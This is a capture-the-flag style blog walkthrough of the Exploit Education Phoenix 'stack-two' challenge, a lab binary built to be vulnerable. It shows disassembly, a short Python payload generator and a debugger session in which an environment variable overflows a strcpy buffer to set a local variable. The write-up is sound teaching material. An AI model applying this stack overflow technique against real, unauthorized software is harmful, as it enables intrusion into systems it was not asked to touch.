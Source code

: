 ```yaml
---
layout: post
title:  "Phoenix x86 Stack Two"
date: "2019-10-12 10:00:00 +0300"
categories: exploit-education phoenix x86
---
```


Stack Two is the continuation of the stack-based buffer overflow challenges.

Once more, `rabin2` is used to get some information about the binary.

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-two 
arch     x86
baddr    0x8048000
binsz    3750
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

Of the important info above, everything is the same as the previous levels. The binary is a 32-bit Linux ELF with no protection against stack overflow.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-two
{% endhighlight %}

{%highlight nasm %}
[0x080483b0]> aas
Cannot analyze at 0x08048630
[0x080483b0]> afl
0x0804831c    1 17           sym._init
0x08048500    7 277  -> 112  sym.frame_dummy
0x080485f0    5 49           sym.__do_global_ctors_aux
0x08048621    1 12           sym._fini
0x08048480    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   49 556  -> 650  sym..interp
0x080483b0    1 62           entry0
0x080483a0    1 6            sym.imp.__libc_start_main
0x08048744    1 14           loc.__GNU_EH_FRAME_HDR
0x08048760    3 34           sym..eh_frame
0x0804879c    1 41           obj.__EH_FRAME_BEGIN
0x080483f0    4 49   -> 40   sym.deregister_tm_clones
0x08048545    6 156          main
0x08048370    1 6            sym.imp.puts
0x08048360    1 6            sym.imp.getenv
0x08048380    1 6            sym.imp.errx
0x08048340    1 6            sym.imp.strcpy
0x08048350    1 6            sym.imp.printf
0x08048390    1 6            sym.imp.exit
[0x080483b0]> s main
[0x08048545]> pdf
/ (fcn) main 156
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_50h @ ebp-0x50
|           ; var int32_t var_10h @ ebp-0x10
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483e4
|           0x08048545      8d4c2404       lea ecx, [arg_4h]
|           0x08048549      83e4f0         and esp, 0xfffffff0
|           0x0804854c      ff71fc         push dword [ecx - 4]
|           0x0804854f      55             push ebp
|           0x08048550      89e5           mov ebp, esp
|           0x08048552      51             push ecx
|           0x08048553      83ec54         sub esp, 0x54
|           0x08048556      83ec0c         sub esp, 0xc
|           0x08048559      6830860408     push str.Welcome_to_phoenix_stack_two__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x8048630 ; "Welcome to phoenix/stack-two, brought to you by https://exploit.education"
|           0x0804855e      e80dfeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048563      83c410         add esp, 0x10
|           0x08048566      83ec0c         sub esp, 0xc
|           0x08048569      687a860408     push str.ExploitEducation   ; 0x804867a ; "ExploitEducation"
|           0x0804856e      e8edfdffff     call sym.imp.getenv         ; char *getenv(const char *name)
|           0x08048573      83c410         add esp, 0x10
|           0x08048576      8945f4         mov dword [var_ch], eax
|           0x08048579      837df400       cmp dword [var_ch], 0
|       ,=< 0x0804857d      750f           jne 0x804858e
|       |   0x0804857f      83ec08         sub esp, 8
|       |   0x08048582      688c860408     push str.please_set_the_ExploitEducation_environment_variable ; 0x804868c ; "please set the ExploitEducation environment variable"
|       |   0x08048587      6a01           push 1                      ; 1
|       |   0x08048589      e8f2fdffff     call sym.imp.errx           ; void errx(int eval)
|       `-> 0x0804858e      c745f0000000.  mov dword [var_10h], 0
|           0x08048595      83ec08         sub esp, 8
|           0x08048598      ff75f4         push dword [var_ch]
|           0x0804859b      8d45b0         lea eax, [var_50h]
|           0x0804859e      50             push eax
|           0x0804859f      e89cfdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
|           0x080485a4      83c410         add esp, 0x10
|           0x080485a7      8b45f0         mov eax, dword [var_10h]
|           0x080485aa      3d0a090a0d     cmp eax, 0xd0a090a
|       ,=< 0x080485af      7512           jne 0x80485c3
|       |   0x080485b1      83ec0c         sub esp, 0xc
|       |   0x080485b4      68c4860408     push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value ; 0x80486c4 ; "Well done, you have successfully set changeme to the correct value"
|       |   0x080485b9      e8b2fdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x080485be      83c410         add esp, 0x10
|      ,==< 0x080485c1      eb14           jmp 0x80485d7
|      |`-> 0x080485c3      8b45f0         mov eax, dword [var_10h]
|      |    0x080485c6      83ec08         sub esp, 8
|      |    0x080485c9      50             push eax
|      |    0x080485ca      6808870408     push str.Almost__changeme_is_currently_0x_08x__we_want_0x0d0a090a ; 0x8048708 ; "Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n"
|      |    0x080485cf      e87cfdffff     call sym.imp.printf         ; int printf(const char *format)
|      |    0x080485d4      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x80485c1
|      `--> 0x080485d7      83ec0c         sub esp, 0xc
|           0x080485da      6a00           push 0
\           0x080485dc      e8affdffff     call sym.imp.exit           ; void exit(int status)
[0x08048545]> agf
[0x08048545]>  # int main (int argc, char **argv, char **envp);
                    .---------------------------------------------------------------------------------------.
                    |  0x8048545                                                                            |
                    | (fcn) main 156                                                                        |
                    |   int main (int argc, char **argv, char **envp);                                      |
                    | ; var int32_t var_50h @ ebp-0x50                                                      |
                    | ; var int32_t var_10h @ ebp-0x10                                                      |
                    | ; var int32_t var_ch @ ebp-0xc                                                        |
                    | ; arg int32_t arg_4h @ esp+0x4                                                        |
                    | ; DATA XREF from entry0 @ 0x80483e4                                                   |
                    | lea ecx, [arg_4h]                                                                     |
                    | and esp, 0xfffffff0                                                                   |
                    | push dword [ecx - 4]                                                                  |
                    | push ebp                                                                              |
                    | mov ebp, esp                                                                          |
                    | push ecx                                                                              |
                    | sub esp, 0x54                                                                         |
                    | sub esp, 0xc                                                                          |
                    | ; sym..rodata                                                                         |
                    | ; 0x8048630                                                                           |
                    | ; "Welcome to phoenix/stack-two, brought to you by https://exploit.education"         |
                    | push str.Welcome_to_phoenix_stack_two__brought_to_you_by_https:__exploit.education    |
                    | ; int puts(const char *s)                                                             |
                    | call sym.imp.puts;[oa]                                                                |
                    | add esp, 0x10                                                                         |
                    | sub esp, 0xc                                                                          |
                    | ; 0x804867a                                                                           |
                    | ; "ExploitEducation"                                                                  |
                    | push str.ExploitEducation                                                             |
                    | ; char *getenv(const char *name)                                                      |
                    | call sym.imp.getenv;[ob]                                                              |
                    | add esp, 0x10                                                                         |
                    | mov dword [var_ch], eax                                                               |
                    | cmp dword [var_ch], 0                                                                 |
                    | jne 0x804858e                                                                         |
                    `---------------------------------------------------------------------------------------'
                            f t
                            | |
                            | '---------------------------------------------.
    .-----------------------'                                               |
    |                                                                       |
.------------------------------------------------------------------.    .---------------------------------------------.
|  0x804857f                                                       |    |  0x804858e                                  |
| sub esp, 8                                                       |    | mov dword [var_10h], 0                      |
| ; 0x804868c                                                      |    | sub esp, 8                                  |
| ; "please set the ExploitEducation environment variable"         |    | push dword [var_ch]                         |
| push str.please_set_the_ExploitEducation_environment_variable    |    | lea eax, [var_50h]                          |
| ; 1                                                              |    | push eax                                    |
| push 1                                                           |    | ; char *strcpy(char *dest, const char *src) |
| ; void errx(int eval)                                            |    | call sym.imp.strcpy;[od]                    |
| call sym.imp.errx;[oc]                                           |    | add esp, 0x10                               |
`------------------------------------------------------------------'    | mov eax, dword [var_10h]                    |
                                                                        | cmp eax, 0xd0a090a                          |
                                                                        | jne 0x80485c3                               |
                                                                        `---------------------------------------------'
                                                                                f t
                                                                                | |
                                                                                | '---------------------.
                  .-------------------------------------------------------------'                       |
                  |                                                                                     |
              .--------------------------------------------------------------------------------.    .----------------------------------------------------------------------.
              |  0x80485b1                                                                     |    |  0x80485c3                                                           |
              | sub esp, 0xc                                                                   |    | mov eax, dword [var_10h]                                             |
              | ; 0x80486c4                                                                    |    | sub esp, 8                                                           |
              | ; "Well done, you have successfully set changeme to the correct value"         |    | push eax                                                             |
              | push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value    |    | ; 0x8048708                                                          |
              | ; int puts(const char *s)                                                      |    | ; "Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n"       |
              | call sym.imp.puts;[oa]                                                         |    | push str.Almost__changeme_is_currently_0x_08x__we_want_0x0d0a090a    |
              | add esp, 0x10                                                                  |    | ; int printf(const char *format)                                     |
              | jmp 0x80485d7                                                                  |    | call sym.imp.printf;[oe]                                             |
              `--------------------------------------------------------------------------------'    | add esp, 0x10                                                        |
                  v                                                                                 `----------------------------------------------------------------------'
                  |                                                                                     v
                  |                                                                                     |
                  '----------------------------------------------------------------.                    |
                                                                                   | .------------------'
                                                                                   | |
                                                                             .-----------------------------------.
                                                                             |  0x80485d7                        |
                                                                             | ; CODE XREF from main @ 0x80485c1 |
                                                                             | sub esp, 0xc                      |
                                                                             | push 0                            |
                                                                             | ; void exit(int status)           |
                                                                             | call sym.imp.exit;[of]            |
                                                                             `-----------------------------------'
{% endhighlight %}

What differs from the previous level is the fact that the input is read via an environment variable. The objective remains the same, which is to overwrite a local variable, `var_10h`. This is feasible because there is a call to `strcpy` that copies the contents of the environment variable `ExploitEducation` to the buffer `var_50h`.

The value that needs to be put in `var_10h` is `0xd0a090a`.

Here follows a `python3` script to create the exploit:

{% highlight python %}
#!/usr/bin/env python3
print("X"*64+"\x0a\x09\x0a\x0d")
{% endhighlight %}

{% highlight shell %}
$ ./myScript.py > pattern
$ export ExploitEducation=`cat pattern`
{% endhighlight %}

Now the binary can be debugged.

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-two
{% endhighlight %}

{% highlight nasm %}
[0xf7ed0d4b]> aas
Cannot analyze at 0x08048630
[0xf7ed0d4b]> db 0x0804859f
[0xf7ed0d4b]> dc
Welcome to phoenix/stack-two, brought to you by https://exploit.education
hit breakpoint at: 804859f
[0x0804859f]> dr
eax = 0xffba6fb8
ebx = 0xf7f06000
ecx = 0x0000006e
edx = 0x00000010
esi = 0xffba7094
edi = 0x00000001
esp = 0xffba6fa0
ebp = 0xffba7008
eip = 0x0804859f
eflags = 0x00000292
oeax = 0xffffffff
[0x0804859f]> px/24xw 0xffba6fa0
0xffba6fa0  0xffba6fb8 0xffba7caf 0x00000084 0x00000010  .o...|..........
0xffba6fb0  0x0804831c 0x08048621 0x00000000 0x00000063  ....!.......c...
0xffba6fc0  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffba6fd0  0x00000011 0xf7f0819c 0x00000000 0x080482e4  ................
0xffba6fe0  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffba6ff0  0x00000000 0x00000000 0x00000000 0xffba7caf  .............|..
[0x0804859f]> px/xw 0xffba7008-0x10
0xffba6ff8  0x00000000                                   ....
[0x0804859f]> dso
hit breakpoint at: 80485a4
[0x0804859f]> px/24xw 0xffba6fa0
0xffba6fa0  0xffba6fb8 0xffba7caf 0x00000084 0x00000010  .o...|..........
0xffba6fb0  0x0804831c 0x08048621 0x58585858 0x58585858  ....!...XXXXXXXX
0xffba6fc0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffba6fd0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffba6fe0  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffba6ff0  0x58585858 0x58585858 0x0d0a090a 0xffba7c00  XXXXXXXX.....|..
[0x0804859f]> px/xw 0xffba7008-0x10
0xffba6ff8  0x0d0a090a                                   ....
[0x0804859f]> dc
Well done, you have successfully set changeme to the correct value
{% endhighlight %}

## Conclusion
This level is almost identical to the previous one, with one little difference. That is, the input needs to be passed through an environment variable and not as an argument.